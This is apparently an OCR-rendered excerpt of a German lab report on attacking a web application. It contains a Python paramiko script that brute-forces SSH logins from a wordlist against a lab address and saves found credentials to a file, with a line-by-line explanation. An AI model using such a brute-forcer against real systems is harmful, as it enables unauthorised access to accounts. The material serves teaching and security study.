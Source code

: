 \documentclass[12pt]{article}
\begin{document}
Anfangs wird der entsprechende Treiber für den Firefox browser eingeladen(vgl. Zeile 2-3). Anschließend wird über die zuvor angelegte Datei mit den Html Dokumenten iteriert und jeweiligen Seiten mit browser.get' geöffnet. In der Seite 'biete.html' werden zudem Formulardaten eingetragen und abgeschickt(vgl. Zeile 5-22).
\newpage
\subsection{SSH Angriff}
Hierbei sollen Admin-Schnittstellen angegriffen und Kompromitiert werden.
Die Webanwendung wird über eine SSH Schnittstelle gewartet. Nun  wird versucht aanhand eines Wörtbuch Angriffes an die Anmeldedaten zu gelangen.
 \begin{lstlisting}[language=python, style=code, basicstyle=\scriptsize]
 def attackssh(ip):
 		try:
 			global que
 			if len(que)==0:
	 			print("Not found, maybe try a new wordlist?!")
	 			return 1
	 		print("Attacking ssh.....")
	 		ssh = paramiko.SSHClient()
	 		ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
	 		for line in range(len(que)):
		 		[username, password] = que.popleft().strip().split()
		 		try:
		 			print(f"Trying with {username} {password}")
		 			conn = ssh.connect(ip, username=username,password=password, 			banner_timeout=200)
		 			if conn is None:
						print(username)
			 			credentials = open("cred.txt", "r+")
			 			credentials.write(username)
			 			credentials.write(" ")
			 			credentials.write(password)
			 			print(f"Successfully Authenticated with {username} {password}")
			 			break
			 except paramiko.AuthenticationException:
					print("Failed!")
			 		continue
			 except paramiko.SSHException:
			 		continue
			 except NameError:
					que = deque()
					for word in open("sshwordlist.txt", "r").readlines():
							que.append(word)
					attackssh("172.17.0.2")
				 										Figure 5: SSH-Attack
 \end{lstlisting}
Anfangs wird eine que angelegt, die in einer Exception befüllt wird(vgl. Zeile 28). Die Funktion wird anschließend erneut aufgerufen und es wird überprüft ob die que leer ist. \newpage Nun wird die Paramiko Biblothek aufgerufen(vgl. Zeile 8). Diese bietet SSH Implementierungen für client und serverseitige Funktionalitäten. Ab Zeile 11 wird Username und Passwort aus der que ausgelesen und entsprechen formatiert. Nun wird versucht eine Verbindung mit den übergebenen Anmeldedaten herzustellen(vglt. Zeile 14). Ist die verbidnung erfolgreich, werden Nutzername und Passwort ausgegeben(vgl. Zeile 16) und in die Datei 'cred.txt' geschrieben. Im gleichen Schleifendurchlauf werden zudem exceptions abgefangen. Die Funktion findet das Passwort und gibt es aus.\\
\end{document}
